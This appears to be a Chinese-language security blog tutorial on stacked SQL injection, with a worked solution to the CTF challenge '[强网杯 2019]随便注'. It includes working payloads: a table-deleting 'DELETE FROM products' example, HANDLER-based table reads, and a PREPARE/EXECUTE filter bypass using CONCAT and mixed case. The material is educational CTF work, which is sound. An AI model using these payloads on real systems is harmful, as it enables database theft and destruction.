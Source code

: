 ```yaml
---
title: 堆叠注入
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - inject
    - sql
description: sql注入--堆叠注入
abbrlink: 5c5063b6
tags:
---
```


# 堆叠注入

当```select```被过滤时候可以考虑是否存在堆叠注入
堆叠注入是利用```;```来执行多条sql语句
比如说类似```select * from users where id=1;select 1,2,3;```这样的语句

堆叠注入可以执行的是任意的语句。

例如用户输入：
```sql
1; DELETE FROM products
```
若未对输入的参数进行过滤，服务器端生成的sql语句可能为： 
```sql
select * from products where productid=1;DELETE FROM products
```
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

> 堆叠注入和union injection（联合注入）区别：
union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句

## 常用函数和方法
### show函数

> 查询数据库
```sql
show databases
```
> 查询表名
```sql
show tables
```
> 查询字段（从words表查询字段）
```sql
show columns from words
```
> 从表里面查这个columns，要用反引号
```sql
show columns from `1919810931114514`;
```
### 使用handler函数

>mysql可以使用select查询表中的数据，也可使用handler语句，这条语句是一行一行的浏览一个表中的数据。
handler可以用于MyISAM和InnoDB表。

使用方法：
>handler table_name open打开一张表
handler table_name read first读取第一行内容，
handler table_name read next依次获取其它行
最后一行执行之后再执行handel table_name read next会返回一个空的结果。

示例：
```sql
?a=-1';handler `1919810931114514` open;handler `1919810931114514` read first;#
```

### 使用预编译绕过

> set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句

示例：
```sql
-1';set @sql = CONCAT('sele','ct * from `1919810931114514`;');prepare aaa from @sql;EXECUTE aaa;#
```

当set和prepare被过滤时可以考虑大小写绕过
```sql
1';sEt @sql = CONCAT('sele','ct * from `1919810931114514`;');prepArE aaa from @sql;EXECUTE aaa;#
```

参考来源：https://blog.csdn.net/nicesa/article/details/106390405

## 例题

> 来自buuctf上面的[强网杯 2019]随便注

发现select、update、delete、drop、insert、where基本上都被过滤了

payload：

库名
```sql
?inject=-1';show databases;%23
```
表名
```sql
?inject=-1';show tables;%23
```
字段名
```sql
?inject=-1';show columns from `1919810931114514`;%23
```
获得内容
```sql
?inject=-1';handler `1919810931114514` open;handler `1919810931114514` read first;%23
```
或者
```sql
?inject=-1';sEt @sql = CONCAT('sele','ct * from `1919810931114514`;');prepArE aaa from @sql;EXECUTE aaa;%23
```



